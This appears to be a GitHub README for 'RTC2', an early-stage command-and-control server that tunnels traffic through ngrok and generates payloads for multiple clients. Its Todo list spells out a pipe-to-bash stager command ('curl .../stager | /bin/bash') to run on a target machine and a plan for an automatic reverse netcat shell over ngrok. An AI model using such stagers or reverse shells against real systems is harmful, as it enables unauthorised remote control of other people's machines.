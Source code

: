# RTC2
RTC2 stands for "Reverse Tunnel C2" because it is a command and control server that utilises [ngrok](https://ngrok.io) to do reverse port forwarding.
This also lets all communication happen via https for extra security. As well as this, all communication is encrypted with private/public key pairs.

# Features
• Handles multiple clients

• Interactive "command-line" interface with tab autocomplete

• Very modular and easy to reuse code

• Unique-Identifier-based command system (easy to find results of commands)

• Automatically handles secure port forwarding with ngrok (works behind firewalls)

• Has function to generate payloads

# Todo
• Utilise private/public key pairs

• Write a function to build said templates with correct server details

• Add a stager function to the server so it's possible to do "curl https://serveraddr.ngrok.io/stager | /bin/bash" on target machine (bash script should echo python program line-by-line or just completely bash)

• Add timestamps to commands

• Sort commands by most recent

• Add commands to generate one-liner stagers

• Add auto-reverse-netcat-ngrok command (target: find ver, down ngrok, nc -l, ngrok tcp, send url)

• On exit: write completed commands into db

• Add command to import db of completed commands

• Layered autocomplete (is that a thing??)

# WIP
This is a huge work-in-progress, so expect lots of bugs and not so many feautures just yet.
